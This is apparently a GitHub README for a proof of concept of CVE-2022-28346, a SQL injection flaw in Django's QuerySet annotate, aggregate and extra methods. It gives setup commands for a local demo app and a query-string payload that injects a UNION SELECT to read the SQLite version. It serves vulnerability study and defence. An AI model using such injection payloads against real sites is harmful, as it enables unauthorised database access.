

<h1 align="center">CVE-2022-28346 PoC <a href="https://twitter.com/intent/tweet?text=CVE-2022-28346 PoC : https://github.com/ahsentekdemir/CVE-2022-28346"></a></h1>


### Impact:
- Potential SQL injection in QuerySet.annotate(), aggregate(), and extra().


## Installation 
```
poetry install
python manage.py makemigrations
python manage.py migrate
python manage.py loaddata data.json
python manage.py runserver
```

## PoC
```
?field=poc.title" FROM "poc_blog" union SELECT "-1,",sqlite_version(),"3" --
```


## References
[CVE Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28346)

[Django](https://www.djangoproject.com/weblog/2022/apr/11/security-releases/)

